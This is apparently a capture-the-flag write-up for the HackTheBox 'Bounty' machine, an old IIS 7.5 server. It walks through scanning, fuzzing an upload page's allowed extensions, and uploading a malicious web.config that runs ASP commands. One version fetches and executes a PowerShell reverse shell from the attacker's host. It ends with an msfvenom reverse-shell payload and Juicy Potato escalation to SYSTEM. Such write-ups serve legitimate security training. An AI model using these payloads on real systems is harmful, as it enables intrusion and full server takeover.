



# Scanning

## Rustscan

bash

```bash
rustscan -a 10.10.10.93 -r 1-1000 -b 100
```


## Nmap

bash

```bash
nmap -sC -sV -T5 -oA nmap/initials 10.10.10.93
```

bash

```bash
# Nmap 7.94SVN scan initiated Sun May 18 14:03:44 2025 as: nmap -sC -sV -T5 -oA nmap/initials 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.21s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 18 14:09:00 2025 -- 1 IP address (1 host up) scanned in 316.39 seconds
```

- Only port 80 is open with an IIS server.
- The IIS Server version (7.5) is very old, suggesting potential exploits might exist.
- The machine is likely running Windows based on the service information.


# Enumeration

- I performed directory discovery using `ffuf` and found a directory called `uploadedfiles` but encountered a 403 Access Denied error. This prompted me to search for bypass techniques.

bash

```bash
ffuf -u http://10.10.10.93/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 150
```



- I discovered that there's an exploit for older versions of IIS that might help bypass access restrictions.


- Reference: [https://www.exploit-db.com/exploits/19033](https://www.exploit-db.com/exploits/19033)




yml

```yml
Title: Microsoft IIS 7.5 Classic ASP Authentication Bypass

Affected Software:
Microsoft IIS 7.5 with configured Classic ASP and .NET Framework 4.0
installed (.NET Framework 2.0 is unaffected, other .NET frameworks
have not been tested)
(tested on Windows 7)

Details:
By appending ":$i30:$INDEX_ALLOCATION" to the directory serving the
classic ASP file access restrictions can be successfully bypassed.

Take this Example:
1.) Microsoft IIS 7.5 has Classic ASP configured (it allows serving .asp files)
2.) There is a password protected directory configured that has
administrative asp scripts inside
3.) An attacker requests the directory with :$i30:$INDEX_ALLOCATION
appended to the directory name
4.) IIS/7.5 gracefully executes the ASP script without asking for
proper credentials
```

- According to the exploit documentation, I needed to append `:$i30:$INDEX_ALLOCATION` to the URL, like this:

```
http://10.10.10.93/uploadedfiles:$i30:$INDEX_ALLOCATION
```

- I tried to exploit this, but it failed because the prerequisite "password protected directory with administrative asp scripts" wasn't present in our target.
- After attempting several other exploits without success, I checked for HTTP version vulnerabilities like MS15-034 (CVE-2015-1635).

bash

```bash
python CVE-2015-1635-POC.py -t 10.10.10.93
```


- Surprise! This whole path turned out to be a rabbit hole! 🐰
- I had been following a writeup that went down this same unfruitful path, and I confidently followed along. 😗
- My Reaction is Like,


- The actual vulnerability was much simpler - there's an ASPX page called `transfer.aspx` that allows file uploads.
- Unfortunately, my directory discovery tools missed this file despite trying different wordlists and techniques. 😒


## Solution Explanation

- After watching the legendary ippsec's video on this box ([https://www.youtube.com/watch?v=7ur4om1K98Y](https://www.youtube.com/watch?v=7ur4om1K98Y)), I tried running gobuster with a different wordlist:
- `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
- This time, I successfully found `transfer.aspx`.
- When I tried to upload a text file, it returned "invalid file":


- This meant I needed to discover which file extensions were permitted. While Burp Suite's Intruder could be used, it would be painfully slow for this task, so I opted for `ffuf` instead.
- The command for extension bruteforcing:

bash

```bash
ffuf -request fuzz.req -w /mnt/hgfs/SecLists-master/Discovery/Web-Content/raft-small-extensions.txt -request-proto http
```

- Here's the request file used (fuzz.req):

r

```r
POST /transfer.aspx HTTP/1.1
Host: 10.10.10.93
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------422437140139749595703497098572
Content-Length: 773
Origin: http://10.10.10.93
Connection: keep-alive
Referer: http://10.10.10.93/transfer.aspx
Upgrade-Insecure-Requests: 1

-----------------------------422437140139749595703497098572
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUKMTI3ODM5MzQ0Mg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkXqaYmgX5i81h7QT7amTjI+lGMRI=
-----------------------------422437140139749595703497098572
Content-Disposition: form-data; name="__EVENTVALIDATION"

/wEWAgLNoKyFBwLt3oXMAxGQeqvPUDSNlGq1wHsrnYpxYT5S
-----------------------------422437140139749595703497098572
Content-Disposition: form-data; name="FileUpload1"; filename="targetsFUZZ"
Content-Type: text/plain

192.168.65.134
192.168.65.135

-----------------------------422437140139749595703497098572
Content-Disposition: form-data; name="btnUpload"

Upload
-----------------------------422437140139749595703497098572--
```

- By analyzing the response sizes, I was able to filter out these three interesting file extensions:


r

```r
.config <== (Most promising)
.jpeg
.doc
```

- Success! The file with .config extension was uploaded:


# Exploitation

- For this exploitation technique, I first tested with a simple ICMP callback using ping to verify command execution.
- Here's the malicious web.config file:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c ping 10.10.16.10")
o = cmd.StdOut.ReadAll()
Response.Write(o)
%>
-->
```

- How this works:
    - The config file reconfigures the IIS server to process .config files using ASP
    - The ASP code embedded in HTML comments executes system commands
    - The server processes this file and runs our commands with the server's privileges

  

- For a proper reverse shell, I used [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) with an added command at the end:

powershell

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 1337
```

- Modified web.config to download and execute the PowerShell script:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.16.10/Invoke-PowerShellTcp.ps1')")
o = cmd.StdOut.ReadAll()
Response.Write(o)
%>
-->
```

- After uploading the file and accessing it, I successfully received a shell connection!

 


- User Flag:


```lua
67eea4d3b99884133851d163f65ea35b
```

# Post Exploitation

- After checking permissions with `whoami /priv`, I discovered that `SeImpersonatePrivilege` was enabled. This is perfect for using the [Juicy Potato](https://github.com/ohpe/juicy-potato) privilege escalation technique.


## What is SeImpersonatePrivilege?

- `SeImpersonatePrivilege` allows a process to impersonate the security context of another user.
- It's normally used by services to impersonate clients (e.g., when a web server impersonates a logged-in user).
- If you can **coerce** a privileged token (e.g., SYSTEM) to authenticate to your service and you can **impersonate it**, you can escalate to SYSTEM privileges.
- This privilege is a common path to privilege escalation on Windows servers.

## Gaining SYSTEM Shell with Juicy Potato

- First, I uploaded the Juicy Potato executable as jp.exe:


- Next, I generated a reverse shell payload using msfvenom:


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=1337 -f exe -o reverse.exe
```

- Then uploaded this reverse shell executable:


- Finally, I executed Juicy Potato with the following command to trigger my reverse shell as NT AUTHORITY\SYSTEM:


```bash
jp.exe -l 1337 -t * -p reverse.exe
```

- How Juicy Potato works:
    - It abuses the SeImpersonatePrivilege to create a COM server and forces Windows to authenticate to it
    - It then captures and impersonates that high-privilege token
    - Finally, it launches our payload with those elevated privileges


- Success! I obtained the root flag:




```lua
a548f17dc9a5f08ddf23aed3c152d834
```